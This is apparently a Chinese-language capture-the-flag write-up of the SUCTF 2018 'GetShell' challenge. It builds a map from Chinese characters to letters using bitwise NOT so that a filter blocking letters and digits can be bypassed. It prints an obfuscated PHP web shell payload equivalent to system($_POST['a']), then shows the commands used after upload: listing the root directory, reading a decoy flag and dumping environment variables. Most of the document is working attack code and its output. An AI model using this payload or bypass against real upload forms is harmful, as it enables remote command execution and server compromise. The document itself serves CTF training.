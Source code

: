 # [SUCTF 2018]GetShell
![](<./img/Pasted image 20230220192219.png>)

```
/index.php
```

![](<./img/Pasted image 20230220192242.png>)

```
/index.php?act=upload
```

![](<./img/Pasted image 20230220192325.png>)

无字母数字RCE，考虑使用汉字绕过

生成字典

```python
s = '悲'
l = list(s.encode())

for i in list(range(65, 91)) + list(range(97, 123)):
    l[1] = ~i + 256
    print(bytes(l).decode() + ' ==> ' + chr(i))

# 澲 ==> A
# 潲 ==> B
# 漲 ==> C
# 滲 ==> D
# 溲 ==> E
# 湲 ==> F
# 渲 ==> G
# 淲 ==> H
# 液 ==> I
# 浲 ==> J
# 洲 ==> K
# 泲 ==> L
# 沲 ==> M
# 汲 ==> N
# 氲 ==> O
# 毲 ==> P
# 殲 ==> Q
# 歲 ==> R
# 欲 ==> S
# 櫲 ==> T
# 檲 ==> U
# 橲 ==> V
# 樲 ==> W
# 槲 ==> X
# 榲 ==> Y
# 楲 ==> Z
# 枲 ==> a
# 杲 ==> b
# 朲 ==> c
# 曲 ==> d
# 暲 ==> e
# 晲 ==> f
# 昲 ==> g
# 旲 ==> h
# 斲 ==> i
# 敲 ==> j
# 攲 ==> k
# 擲 ==> l
# 撲 ==> m
# 摲 ==> n
# 搲 ==> o
# 揲 ==> p
# 掲 ==> q
# 捲 ==> r
# 挲 ==> s
# 拲 ==> t
# 抲 ==> u
# 扲 ==> v
# 戲 ==> w
# 懲 ==> x
# 憲 ==> y
# 慲 ==> z
```

payload

```php
<?=$_=[];$__=$_==$_;$___=~挲[$__];$___.=~憲[$__];$___.=~挲[$__];$___.=~拲[$__];$___.=~暲[$__];$___.=~撲[$__];$____=_;$____.=~毲[$__];$____.=~氲[$__];$____.=~欲[$__];$____.=~櫲[$__];$___($$____[~枲[$__]]);
```

翻译过来是

```php
system($_POST['a']);
```

![](<./img/Pasted image 20230220193201.png>)

![](<./img/Pasted image 20230220193226.png>)

```shell
ls /
```

```
Th1s_14_f14g
bin
boot
dev
etc
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
```

```shell
cat /Th1s_14_f14g
```

```
SUCTF{fake_flag_web_b}
```

假flag

找半天结果在环境变量里qaq

```shell
export
```

```shell
export APACHE_LOCK_DIR='/var/lock/apache2'
export APACHE_LOG_DIR='/var/log/apache2'
export APACHE_PID_FILE='/var/run/apache2/apache2.pid'
export APACHE_RUN_DIR='/var/run/apache2'
export APACHE_RUN_GROUP='www-data'
export APACHE_RUN_USER='www-data'
export FLAG='flag{4487500a-7f2b-4155-88ac-a52e58fddead}'
export HOSTNAME='out'
export KUBERNETES_PORT='tcp://10.240.0.1:443'
export KUBERNETES_PORT_443_TCP='tcp://10.240.0.1:443'
export KUBERNETES_PORT_443_TCP_ADDR='10.240.0.1'
export KUBERNETES_PORT_443_TCP_PORT='443'
export KUBERNETES_PORT_443_TCP_PROTO='tcp'
export KUBERNETES_SERVICE_HOST='10.240.0.1'
export KUBERNETES_SERVICE_PORT='443'
export KUBERNETES_SERVICE_PORT_HTTPS='443'
export LANG='C'
export PATH='/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin'
export PWD='/var/www/html/upload'
```
